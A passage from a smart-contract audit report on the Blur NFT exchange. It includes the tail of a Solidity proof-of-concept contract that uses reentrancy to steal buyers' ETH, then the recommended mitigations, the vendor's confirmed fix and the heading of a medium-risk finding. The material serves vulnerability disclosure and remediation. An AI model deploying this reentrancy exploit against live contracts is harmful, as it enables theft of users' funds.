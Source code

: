 ```
        if(!lock){
            lock = true;
            // first entrance when receiving fee
            uint256 feeAmount = msg.value;
            // Create empty calldata for bulkExecute and call it
            Execution[] memory executions = new Execution[](0);
            bytes memory data = abi.encodeWithSelector(Exchange.bulkExecute.selector, executions);
            address(ex).call{value: 1}(data);

            // Now we received All of buyers funds. 
            // Send stolen ETH to seller minus the amount needed in order to keep execution.
            address(_seller).call{value: address(this).balance - (_price - feeAmount)}('');

            // selfdestruct and send funds needed to Exchange (to not revert)
            selfdestruct(payable(msg.sender));
        }
        else{
            // Second entrance after steeling balance
            // We will get here after getting funds from reentrancy
        }
    }
}

```

Execute `yarn test` to see that test pass (Alice stole all 4 ETH)

### Tools Used
VS code, hardhat

### Recommended Mitigation Steps
1. Put a reentrancyGuard on `execute` and `bulkExecute` functions
2. `_refundDust` return only _remainingETH
3. revert in `bulkExecute` if parameter array is empty.

**[nonfungible47 (Blur) confirmed and commented](https://github.com/code-423n4/2022-11-non-fungible-findings/issues/96#issuecomment-1341617796):**
 > Both mitigation steps 2 and 3 were added. We cannot add `reentrancyGuard` to the `execute` and `bulkExecute` functions as it will break the call to `_execute`. So, a separate guard was added in `setupExecution` that would require `isInternal = false`, preventing reentrant calls.



***
 
# Medium Risk Findings (2)
## [[M-01] Yul `call` return value not checked](https://github.com/code-423n4/2022-11-non-fungible-findings/issues/90)
*Submitted by rotcivegaf, also found by 0x4non, 0xDecorativePineapple, 9svR6w, adriro, ajtra, aviggiano, brgltd, carlitox477, chaduke, codexploder, corerouter, joestakey, ladboy233, s3cunda, saian, Trust, V\_B, and wait*
